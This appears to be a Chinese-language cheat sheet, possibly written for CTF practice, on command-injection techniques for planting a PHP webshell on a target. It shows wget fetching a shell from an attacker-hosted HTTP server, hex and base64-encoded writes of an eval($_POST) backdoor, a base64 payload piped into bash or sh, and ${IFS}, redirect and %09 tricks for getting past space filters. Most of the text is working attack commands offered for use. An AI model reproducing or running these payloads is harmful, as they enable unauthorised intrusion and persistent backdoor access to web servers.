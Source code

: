 ### 远端下载webshell

可出网且有wget的情况下可采用此方式

远端服务器放置webshell,开启http

    python -m http.server
    
目标机器执行

    wget http://xx.xx.xxx.xx:8000/xxx.php
    
### hex写入

hex写入与base64写入相似，在 `https://www.107000.com/T-Hex/`

将webshell编码成hex，使用xxd命令还原

或在使用前将webshell使用xxd生成hex数据

    echo '<?php eval($_POST[1]); ?>' |xxd -ps
     
然后命令注入执行

    echo 3C3F706870206576616C28245F504F53545B315D293B203F3E|xxd -r -ps > 5.php

### 限制绕过
    
#### 绕过重定向符

重定向符>不可用时，我们可以将1或2中的整体命令base64编码，然后解码后通过bash或sh执行

    echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | bash
    echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | sh

#### 空格绕过

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

##### ${IFS}

可使用${IFS}代替空格。

    cat${IFS}flag.txt
    cat$IFS$1flag.txt
    cat${IFS}$1flag.txt
    
##### 重定向符绕过(<>)

    cat<>flag.txt
    cat<flag.txt
    
##### %09(需要php环境)

php环境下web输入%09等效于空格

    cat%09flag.txt
    